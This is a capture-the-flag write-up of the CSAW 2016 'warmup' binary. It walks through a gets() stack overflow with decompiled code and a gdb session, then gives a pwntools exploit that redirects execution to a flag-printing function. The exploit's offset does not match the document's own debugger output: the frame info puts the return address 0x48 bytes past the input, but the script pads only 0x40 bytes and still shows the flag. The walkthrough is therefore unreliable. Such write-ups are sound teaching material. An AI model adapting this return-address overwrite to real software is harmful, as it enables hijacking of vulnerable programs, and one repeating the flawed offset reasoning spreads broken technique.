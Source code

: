 # Csaw 2016 Quals Warmup

Let's take a look at the binary:

```
$    file warmup
warmup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.24, BuildID[sha1]=ab209f3b8a3c2902e1a2ecd5bb06e258b45605a4, not stripped
$    ./warmup
-Warm Up-
WOW:0x40060d
>15935728
```

So we can see that we are dealing with a 64 bit binary. When we run it, it displays an address (looks like an address from the code section of the binary, versus another section like the libc) and prompts us for input. When we look at the main function in Ghidra, we see this:

```
void main(void)

{
  char easyFunctionAddress [64];
  char input [64];
 
  write(1,"-Warm Up-\n",10);
  write(1,&DAT_0040074c,4);
  sprintf(easyFunctionAddress,"%p\n",easy);
  write(1,easyFunctionAddress,9);
  write(1,&DAT_00400755,1);
  gets(input);
  return;
}
```

So we can see that the address being printed is the address of the function `easy` (which when we look at it's address in Ghidra we see it's `0x40060d`). After that we can see it calls the function `gets`, which is a bug since it doesn't limit how much data it scans in (and since `input` can only hold `64` bytes of data, after we write `64` bytes we overflow the buffer and start overwriting other things in memory). With that bug we can totally reach the return address (the address on the stack that is executed after the `ret` call to return execution back to whatever code called it). For what to call, we see that the `easy` function will print the flag for us (in order to print the flag, we will need to have a `flag.txt` file in the same directory as the executable):

```
void easy(void)

{
  system("cat flag.txt");
  return;
}
```

So let's use gdb to figure out how much data we need to send before overwriting the return address, so we can land the bug. I will just set a breakpoint for after the `gets` call:

```
gef➤  disas main
Dump of assembler code for function main:
   0x000000000040061d <+0>:    push   rbp
   0x000000000040061e <+1>:    mov    rbp,rsp
   0x0000000000400621 <+4>:    add    rsp,0xffffffffffffff80
   0x0000000000400625 <+8>:    mov    edx,0xa
   0x000000000040062a <+13>:    mov    esi,0x400741
   0x000000000040062f <+18>:    mov    edi,0x1
   0x0000000000400634 <+23>:    call   0x4004c0 <write@plt>
   0x0000000000400639 <+28>:    mov    edx,0x4
   0x000000000040063e <+33>:    mov    esi,0x40074c
   0x0000000000400643 <+38>:    mov    edi,0x1
   0x0000000000400648 <+43>:    call   0x4004c0 <write@plt>
   0x000000000040064d <+48>:    lea    rax,[rbp-0x80]
   0x0000000000400651 <+52>:    mov    edx,0x40060d
   0x0000000000400656 <+57>:    mov    esi,0x400751
   0x000000000040065b <+62>:    mov    rdi,rax
   0x000000000040065e <+65>:    mov    eax,0x0
   0x0000000000400663 <+70>:    call   0x400510 <sprintf@plt>
   0x0000000000400668 <+75>:    lea    rax,[rbp-0x80]
   0x000000000040066c <+79>:    mov    edx,0x9
   0x0000000000400671 <+84>:    mov    rsi,rax
   0x0000000000400674 <+87>:    mov    edi,0x1
   0x0000000000400679 <+92>:    call   0x4004c0 <write@plt>
   0x000000000040067e <+97>:    mov    edx,0x1
   0x0000000000400683 <+102>:    mov    esi,0x400755
   0x0000000000400688 <+107>:    mov    edi,0x1
   0x000000000040068d <+112>:    call   0x4004c0 <write@plt>
   0x0000000000400692 <+117>:    lea    rax,[rbp-0x40]
   0x0000000000400696 <+121>:    mov    rdi,rax
   0x0000000000400699 <+124>:    mov    eax,0x0
   0x000000000040069e <+129>:    call   0x400500 <gets@plt>
   0x00000000004006a3 <+134>:    leave  
   0x00000000004006a4 <+135>:    ret    
End of assembler dump.
gef➤  b *main+134
Breakpoint 1 at 0x4006a3
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/csaw16_warmup/warmup
-Warm Up-
WOW:0x40060d
>15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffde50  →  "15935728"
$rbx   : 0x0               
$rcx   : 0x00007ffff7dcfa00  →  0x00000000fbad2288
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffde10  →  "0x40060d"
$rbp   : 0x00007fffffffde90  →  0x00000000004006b0  →  <__libc_csu_init+0> push r15
$rsi   : 0x35333935        
$rdi   : 0x00007fffffffde51  →  0x0038323735333935 ("5935728"?)
$rip   : 0x00000000004006a3  →  <main+134> leave
$r8    : 0x0000000000602269  →  0x0000000000000000
$r9    : 0x00007ffff7fda4c0  →  0x00007ffff7fda4c0  →  [loop detected]
$r10   : 0x0000000000602010  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x0000000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffdf70  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffde10│+0x0000: "0x40060d"     ← $rsp
0x00007fffffffde18│+0x0008: 0x000000000000000a
0x00007fffffffde20│+0x0010: 0x0000000000000000
0x00007fffffffde28│+0x0018: 0x0000000000000000
0x00007fffffffde30│+0x0020: 0x0000000000000000
0x00007fffffffde38│+0x0028: 0x0000000000000000
0x00007fffffffde40│+0x0030: 0x0000000000000000
0x00007fffffffde48│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400694 <main+119>       rex.RB ror BYTE PTR [r8-0x77], 0xc7
     0x400699 <main+124>       mov    eax, 0x0
     0x40069e <main+129>       call   0x400500 <gets@plt>
 →   0x4006a3 <main+134>       leave  
     0x4006a4 <main+135>       ret    
     0x4006a5                  nop    WORD PTR cs:[rax+rax*1+0x0]
     0x4006af                  nop    
     0x4006b0 <__libc_csu_init+0> push   r15
     0x4006b2 <__libc_csu_init+2> mov    r15d, edi
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a3 → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x00000000004006a3 in main ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602260 - 0x602268  →   "15935728"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde50 - 0x7fffffffde58  →   "15935728"
gef➤  i f
Stack level 0, frame at 0x7fffffffdea0:
 rip = 0x4006a3 in main; saved rip = 0x7ffff7a05b97
 Arglist at 0x7fffffffde90, args:
 Locals at 0x7fffffffde90, Previous frame's sp is 0x7fffffffdea0
 Saved registers:
  rbp at 0x7fffffffde90, rip at 0x7fffffffde98
```

With a bit of math, we see the offset:
```
>>> hex(0x7fffffffde90 - 0x7fffffffde50)
'0x40'
```

So we can see that after `0x40` bytes of input, we start overwriting the return address. With all of this, we can write the exploit;
```
from pwn import *

target = process('./warmup')
#gdb.attach(target, gdbscript = 'b *0x4006a3')

# Make the payload
payload = ""
payload += "0"*0x40 # Overflow the buffer up to the return address
payload += p64(0x40060d) # Overwrite the return address with the address of the `easy` function

# Send the payload
target.sendline(payload)

target.interactive()
```

When we run it:
```
$    python exploit.py
[+] Starting local process './warmup': pid 4652
[*] Switching to interactive mode
-Warm Up-
WOW:0x40060d
>flag{g0ttem_b0yz}
[*] Got EOF while reading in interactive
```
